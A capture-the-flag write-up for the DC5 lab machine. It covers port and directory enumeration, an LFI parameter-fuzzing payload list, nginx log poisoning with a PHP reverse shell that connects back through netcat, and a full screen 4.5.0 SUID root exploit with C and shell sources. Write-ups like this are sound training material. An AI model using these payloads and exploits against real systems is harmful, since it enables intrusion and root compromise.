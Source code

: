 # DC5

## Nmap

```
sudo nmap 192.168.184.26 -p- -sS -sV

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
111/tcp   open  rpcbind 2-4 (RPC #100000)
38106/tcp open  status  1 (RPC #100024)
```

Port 80 on the target machine take us to the following web page. Multiple sub pages include non-english text and after translating random paragraphs found this is mostly gibberish.

![](<../../../.gitbook/assets/image (1268).png>)

Clicking the home button takes us to the same page but we notice this time we are on /index.php. I then ran feroxbuster against the target site to identify more pages.

```
feroxbuster --url http://192.168.184.26 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -s 200,300,301 -x php 
```

![](<../../../.gitbook/assets/image (1269).png>)

Checking out contact.php and it appears to be the only page to take some form of input.

![](<../../../.gitbook/assets/image (1270).png>)

After submitting some test information we are directed to /thankyou.php where the URL contains our input from the previous page.

![](<../../../.gitbook/assets/image (1271).png>)

At this point I decided to test thankyou.php? for command injection. I caught the request in `Burpsuite` and sent it to intruder. I then set the payload variable as below.

![](<../../../.gitbook/assets/image (1273).png>)

I then added the command injection list as shown below as the payload.

```
cmd=../../../../../etc/passwd
?exec=../../../../../etc/passwd
?command=../../../../../etc/passwd
?execute../../../../../etc/passwd
?ping=../../../../../etc/passwd
?query=../../../../../etc/passwd
?jump=../../../../../etc/passwd
?code=../../../../../etc/passwd
?reg=../../../../../etc/passwd
?do=../../../../../etc/passwd
?func=../../../../../etc/passwd
?arg=../../../../../etc/passwd
?option=../../../../../etc/passwd
?load=../../../../../etc/passwd
?process=../../../../../etc/passwd
?step=../../../../../etc/passwd
?read=../../../../../etc/passwd
?function=../../../../../etc/passwd
?req=../../../../../etc/passwd
?feature=../../../../../etc/passwd
?exe=../../../../../etc/passwd
?module=../../../../../etc/passwd
?payload=../../../../../etc/passwd
?run=../../../../../etc/passwd
?print=../../../../../etc/passwd
?file=../../../../../etc/passwd
```

Ensure URL encoding is turned off as this was causing incorrect results as it was encoding `'?'`.

![](<../../../.gitbook/assets/image (1274).png>)

Viewing the results of the payload after show that the `?file=` parameter appears to be vulnerable due to the content length being greatly different form the other values.

![](<../../../.gitbook/assets/image (1275).png>)

Viewing this in the browser shows us valid results.

![](<../../../.gitbook/assets/image (1277).png>)

We can fuzz for further files using `wfuzz` and the command below:

```
wfuzz -c -w lfi.txt --hl 42 http://192.168.184.26/thankyou.php?file=../../../../../../../FUZZ
```

The LFI list can be downloaded from here

{% file src="../../../.gitbook/assets/lfi (1).txt" %}
LFI list
{% endfile %}

![](<../../../.gitbook/assets/image (1278).png>)

We have two interesting LFI paths found once `wfuzz` completes:

```
/var/log/nginx/access.log
/var/log/nginx/error.log
```

Checking out access.log we can see requests we have made.

![](<../../../.gitbook/assets/image (1279).png>)

We can capture a request in `Burpsuite` and inject a PHP reverse shell into the User-Agent field. When the code is injected into the log we are able to get a reverse shell.

![](<../../../.gitbook/assets/image (1280).png>)

Where the code snippet below is used for the RCE:

```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.211 80 >/tmp/f') ?>
```

With a netcat listener listening we can then access the log files again at: [http://192.168.211.26/thankyou.php?file=../../../../../../../var/log/nginx/access.log](http://192.168.211.26/thankyou.php?file=../../../../../../../var/log/nginx/access.log)

When we attempt to load the log files the page should hang and we get a reverse shell.

![](<../../../.gitbook/assets/image (1281) (1).png>)

Searching for SUID commands on the machine find the binary screen-4.5.0 has the SUID bit set.

```
find / -perm -u=s -type f 2>/dev/null 
```

![](<../../../.gitbook/assets/image (1283).png>)

Researching on Google shows a local privilege escalation exploit for this binary version.

{% embed url="https://github.com/XiphosResearch/exploits/tree/master/screen2root" %}

We first need to create some files and break down the script to get this to work. Follow the instructions below to achieve shell.

{% tabs %}
{% tab title="libhax.c" %}
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```
{% endtab %}
{% endtabs %}

**Compile libhax.c**

`gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c`

{% tabs %}
{% tab title="rootshell.c" %}
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```
{% endtab %}
{% endtabs %}

**Compile rootshell.c**

`gcc -o /tmp/rootshell /tmp/rootshell.c`\*\* \*\*

Create exploit bash script.

{% tabs %}
{% tab title="exploit.sh" %}
```
#!/bin/bash

cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
echo "[+] Triggering..."
screen -ls 
```
{% endtab %}
{% endtabs %}

Upload compiled files to target machine.

```
wget http://192.168.49.211/rootshell
wget http://192.168.49.211/libhax.so
wget http://192.168.49.211/exploit.sh
```

Once uploaded make the bash script executable:

```
chmod +x exploit.sh
```

Execute exploit.sh then after run `/tmp/rootshell` to gain shell as root.

![](<../../../.gitbook/assets/image (1282).png>)
